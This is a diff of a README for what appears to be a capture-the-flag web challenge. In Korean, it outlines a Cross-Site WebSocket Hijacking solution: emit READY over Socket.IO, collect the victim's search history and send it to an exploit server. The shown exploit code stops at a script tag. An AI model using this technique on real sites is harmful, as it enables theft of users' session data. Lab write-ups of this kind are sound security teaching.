

Before and after one commit to soeun-727/Cat-Distribution-System, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,33 +1,24 @@
-# Cat-Distribution-System
-To adopt kitties ₍^. .^₎⟆
-<br><br>
-
-## 페이지 구성
-- home 페이지에서 입양할 고양이 확인 가능(고양이 클릭하면 세부정보 알 수 있음)
-- 우상단에 Login 클릭 시 로그인 페이지로 연결
-- Search 기능이 있음 (취약점 있는 부분)
-- 전체 Search History를 반환하는 기능 구현
-<br>
+# 문제 풀이 시나리오
 
 ## 1. 검색 기능 분석
 
 - 검색창에 무언가를 검색하면 검색 기록도 반환됨
 - 검색 기록은 세션에 따라 반환됨
-- 개발자 툴을 통해 살펴보면 웹 소켓 핸드셰이크를 찾을 수 있음
-- “순수 WebSocket 프레임”이 아니라 Socket.IO 프레이밍을 사용하는 것 파악
-- 요청에 예측 불가능한 토큰이 없기 때문에 CSWSH 취약점의 가능성
-- 페이지 새로고침 시 클라이언트가 READY 메시지를 서버에 보내고 서버는 검색 기록으로 응답함
-(단순 `new WebSocket(...).send("READY")` 로는 안 됨. Socket.IO 클라이언트를 써서 `socket.emit("READY", …)` 로 보내야 함)
+- 개발자 툴을 통해 살펴보면 웹소켓 통신을 확인하면 Socket.IO 프로토콜을 확인할 수 있
+- CSWSH(Cross-Site WebSocket Hijacking) 취약점 가능성을 발견할 수 있음.
+- 페이지 새로고침 시 클라이언트는 READY 메시지를 서버에 보내고, 서버는 해당 세션의 검색 기록을 반환함.
+- 단순 new WebSocket(...).send("READY")는 동작하지 않음.
+- Socket.IO 클라이언트를 사용해 socket.emit("READY", …) 해야 함.
 
 ## 2. CSWSH 취약점 확인
 
-- search.js에서 코드 확인하고 공격 스크립트 작성해 익스플로잇 서버 통해 보내기
-- 원래대로라면 피해자가 공격 코드를 열어봐야 하지만 문제에서는 puppeteer 자동화를 통해 익스플로잇 서버에 보내진 코드를 피해자가 열은 것으로 처리
+- 참가자는 search.js 코드를 분석하고 공격 스크립트를 작성함.
+- 공격 스크립트를 익스플로잇 서버에 보내면, Puppeteer가 이를 자동으로 실행했다고 가정함.
+- 즉, 피해자가 실제로 열어보지 않아도, 서버는 공격 스크립트 실행 결과를 victim이 실행한 것처럼 처리함.
 
     ### 2-1. 공격 스크립트 작성
 
-    - 아래와 같이 익스플로잇 코드를 작성하여 익스플로잇 서버에 주입
-    - 웹소켓 주소 알아내기 (F12 -> Network -> Socket: request url)
+    - 웹소켓 주소를 알아내서 READY 메시지를 서버에 보내고 검색 기록을 수집하여 익스플로잇 서버에 전달
 
         ```html
         <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
````
